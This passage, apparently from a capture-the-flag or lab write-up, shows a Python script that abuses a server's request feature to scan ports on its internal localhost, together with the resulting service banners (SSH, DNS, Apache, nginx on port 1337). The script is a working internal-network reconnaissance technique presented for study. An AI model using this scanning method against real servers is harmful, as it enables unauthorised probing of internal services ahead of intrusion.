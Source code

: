 ```python
    try:
        response = requests.get(url + "read.php", params=params, headers=headers, timeout=5)
    except:
        # If the request times out, we assume that there's a service running on that port
        return "[Timeout]"

    # Load the JSON response
    response = json.loads(response.text)

    # Decode the base64
    response = base64.b64decode(response['data'])
    return response

# Port scan!
for i in xrange(3000):
    read_id = populate("127.0.0.1", i, "garbage")
    res = read(read_id)
    if res != "":
        print "Open port found : {}".format(i)
        print res
```

After a couple of minutes, we get the following results :

```bash
Open port found : 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

Open port found : 53
[Timeout]

Open port found : 80
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /garbage was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>

Open port found : 1337
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3 (Ubuntu)</center>
</body>
</html>

```
